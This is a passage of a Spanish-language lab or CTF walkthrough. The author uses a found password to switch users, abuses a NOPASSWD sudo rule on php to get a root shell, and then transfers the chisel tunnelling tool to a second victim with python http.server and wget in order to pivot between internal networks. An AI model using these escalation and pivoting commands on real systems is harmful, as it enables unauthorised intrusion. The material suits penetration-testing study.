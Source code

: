 Tenemos la contrasena de el usuario **seller**
```bash
Contraseña encontrada para el usuario seller: qwerty
```

Ahora migramos de usuario:
```bash
su seller # ( qwerty )
```

###### Usuario `[ machi ]`:
Listando los permisos para este usuario:
```bash
sudo -l

User seller may run the following commands on 96e650d24ad5:
    (ALL) NOPASSWD: /usr/bin/php
```

Explotamos el binario:
```bash
sudo -u root /usr/bin/php -r 'system("/bin/bash");'
root@96e650d24ad5:/home/seller#
```

- **Host comprometido:** `20.20.20.3` (también tiene `30.30.30.2`)
- **Nuevo objetivo:** `30.30.30.3`
- **Redes:**
    - Red 1: `20.20.20.0/24` (ya accesible)
    - Red 2: `30.30.30.0/24` (nuevo objetivo)
Ahoro verificamos que en nuestra maquina atacante verificamos si seguimos en escucha:
```bash
netstat -tulpn | grep 8000
```

Como ya tenemos **chisel** activo usaremos el mismo **proxy** que ya teniamos configurado
Desde la maquina victma 1 la primera que vulneramos montaremos un servidor con python para transeferirla la herrramienta **chisel_1.9.1_linux_amd64** a la maquina victima 2
```bash
python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ..
```

Ahora desde la maquina victima 2 realizaremos la peticion para transferir la herramienta **chisel**
```bash
wget http://20.20.20.2:5000/chisel_1.9.1_linux_amd64
```

Tenemos la herramienta:
```bash
--2025-07-02 00:42:32--  http://20.20.20.2:5000/chisel_1.9.1_linux_amd64
Connecting to 20.20.20.2:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel_1.9.1_linux_amd64'

chisel_1.9.1_linux_amd64 100%[===========>]   8.25M  --.-KB/s    in 0.03s   

2025-07-02 00:42:32 (308 MB/s) - 'chisel_1.9.1_linux_amd64' saved [8654848/8654848]
```
